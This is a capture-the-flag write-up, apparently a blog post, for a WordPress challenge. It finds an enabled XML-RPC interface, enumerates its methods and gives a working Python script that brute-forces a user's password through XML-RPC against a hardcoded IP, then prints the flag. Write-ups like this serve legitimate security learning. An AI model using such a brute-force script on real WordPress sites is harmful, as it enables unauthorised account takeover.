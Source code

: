 ```yaml
---
layout: post
title:  "HZVII - $uper $ecure WP Blog"
author: "PsycoR"
tags: HZVII web
---
```


>  WordPress accounted for 90% of all hacked CMS sites in 2018, some WordPress features should be disabled or removed completely if it is not being used to avoid any potential risks. Otherwise, it should at the very least be blocked from external access.





## Steps
- The first thought that comes to mind is to try access default login interface of wordpress but Oops you can not

 ![](https://raw.githubusercontent.com/pow270/pow270.github.io/master/_posts/pictures/wp0.png)

- The source code shows that we need to be authenticated to get the flag, how to authenticate without login interface ?

 ![](https://raw.githubusercontent.com/pow270/pow270.github.io/master/_posts/pictures/wp1.png)

- Simple scan with wpscan shows that the XML-RPC Interface is enabled. 
>In wp challenges people generally think about vulnerable plugins which is not the case here so What is XML-RPC ?

 ![](https://raw.githubusercontent.com/pow270/pow270.github.io/master/_posts/pictures/wp2.png)

>XML-RPC on WordPress is actually an API or “application program interface“. It gives developers who make mobile apps, desktop apps and other services the ability to talk to your WordPress site. The XML-RPC API that WordPress provides gives developers a way to write applications (for you) that can do many of the things that you can do when logged into WordPress via the web interface. These include: Publish a post Edit a post Delete a post. Upload a new file (e.g. an image for a post) Get a list of comments Edit comments

- List available methods
> The first thing to do now is send a POST request and list all the available methods , why ? cause that’s how we’ll know which actions are even possible to make and potentially use one of them for an attack. 

 ![](https://raw.githubusercontent.com/pow270/pow270.github.io/master/_posts/pictures/wp3.png)


- Interresting method founded demo.getFlag

 ![](https://raw.githubusercontent.com/pow270/pow270.github.io/master/_posts/pictures/wp4.png)

> The flag is not here :'(

- Digging deeper for availible methods.
 ![](https://raw.githubusercontent.com/pow270/pow270.github.io/master/_posts/pictures/wp5.png)

> A dictionnary link was founded in the method getFavouriteWords, maybe we need it later

 ![](https://raw.githubusercontent.com/pow270/pow270.github.io/master/_posts/pictures/wp6.png)
> Another method wp.getFlag seems interresting

- Call wp.getFlag
> The request need more arguements certainly the user & password :)

 ![](https://raw.githubusercontent.com/pow270/pow270.github.io/master/_posts/pictures/wp7.png)


- The user who posted the first article in the blog is psycor
> We know our user ;)

 ![](https://raw.githubusercontent.com/pow270/pow270.github.io/master/_posts/pictures/wp8.png)

- Now it's time to bruteforce the password using the dictionary previously founded
> We can differentiate successful credentials by response length.

```python
import requests


headers = {'Content-Type': 'text/xml'}

cracklist = open("dic.txt", "r")
for password in cracklist.readlines():
	password = password.strip("\n")
	xml = """<methodCall>
<methodName>wp.getFlag</methodName>
<params>
<param><value>psycor</value></param>
<param><value>"""+password+"""</value></param>
</params>
</methodCall>"""
	response = requests.post('http://51.83.41.116/xmlrpc.php', data=xml, headers=headers)
	if len(response.content) != 403:
		print("Password Founded:= "+password)
		print(response.text)
		break

```

 ![](https://raw.githubusercontent.com/pow270/pow270.github.io/master/_posts/pictures/wp9.png)

> The flag is : HZVII{50m371m35_xml_rpc_15_d4n63r0u5}





